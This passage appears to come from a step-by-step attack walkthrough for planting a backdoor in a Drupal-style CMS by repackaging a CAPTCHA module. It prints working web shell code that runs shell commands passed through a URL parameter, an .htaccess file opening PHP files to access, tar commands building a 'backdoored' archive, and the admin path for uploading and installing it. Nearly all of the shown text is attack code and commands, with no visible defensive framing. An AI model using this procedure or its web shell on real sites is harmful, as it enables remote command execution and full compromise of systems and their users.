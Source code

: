 #### Step 2: Web Shell Creation
```php
# Create shell.php in module directory
cat > shell.php << 'EOF'
<?php
// CAPTCHA module security enhancement (NOT!)
if (isset($_GET['fe8edbabc5c5c9b7b764504cd22b17af'])) {
    $cmd = $_GET['fe8edbabc5c5c9b7b764504cd22b17af'];
    
    // Basic input validation bypass
    if (strlen($cmd) > 0) {
        echo "<pre>";
        system($cmd);
        echo "</pre>";
    }
}
?>
EOF
```

#### Step 3: .htaccess Configuration
```apache
# Create .htaccess for module access
cat > .htaccess << 'EOF'
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>

# Allow access to PHP files in modules directory
<Files "*.php">
    Require all granted
</Files>
EOF
```

#### Step 4: Module Repackaging
```bash
# Move backdoor files into module directory
mv shell.php .htaccess captcha/

# Create backdoored archive
tar czf captcha-backdoored.tar.gz captcha/

# Verify archive contents
tar -tzf captcha-backdoored.tar.gz | grep -E "(shell\.php|\.htaccess)"
```

#### Step 5: Administrative Upload
**Navigation Path:**
1. **Manage** → **Extend** (`/admin/modules`)
2. **+ Install new module** button
3. **Browse** → Select `captcha-backdoored.tar.gz`
4. **Install** to upload and activate
